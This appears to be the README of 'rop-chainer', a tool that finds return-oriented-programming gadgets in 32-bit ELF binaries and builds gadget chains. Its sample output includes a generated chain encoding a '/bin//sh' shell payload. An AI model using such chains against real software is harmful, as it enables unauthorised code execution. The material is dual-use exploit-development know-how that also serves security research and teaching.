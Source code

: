 # rop-chainer

rop-chainer is a simple tool that finds gadgets and creates gadget chains for 32-bit ELF binaries. It uses the [capstone](https://github.com/aquynh/capstone) framework for disassembling byte sequences obtained by backtracking from located `ret` instructions.

## Usage

```
usage: rop.py [-h] [--depth <depth>] [--chain] <binary>

positional arguments:
  <binary>         filename of binary

optional arguments:
  -h, --help       show this help message and exit
  --depth <depth>  depth of search for gadgets
  --chain          enable chain generation
```

## Output

```
Ret-gadgets:
...
0x8117e54: pop eax ; ret
...
Syscall-gadgets:
...
0x804d1b0: syscall
...
Summary:
Found 1497 ret-gadgets!
Found 7 syscall-gadgets!
Strings:
...
Collecting gadgets for ropchain:
...
Generated chain:
'q\xc3\x12\x08`S\x13\x08 4\x13\x08/bin\x1c
%\x0b\x08q\xc3\x12\x08dS\x13\x08 4\x13
x08// \sh\x1c\%\x0b\x08q\xc3\x12\x08hS
x13\x08XZ\x07\x08\xef\xbe\xad\xde\xef
\xbe\xad\xde\x1c%\x0b\x08u\xff\x05
\x08`S\x13\x08q\xc3\x12\x08hS\x13\x08
4\x13\x08hS\x13\x08\xcc\r\x06\x08hS
\x13\x08|xae\x04\x08|\xae\x04\x08|\xae
\x04\x08|\xae\x04\x08|\xae\x04\x08|
\xae\x04\x08|\xae\x04\x08|\xae
\x04\x08|\xae\x04\x08|\xae\x04\x08|
\xae\x04\x08\xb0\xd1\x04\x08'
```
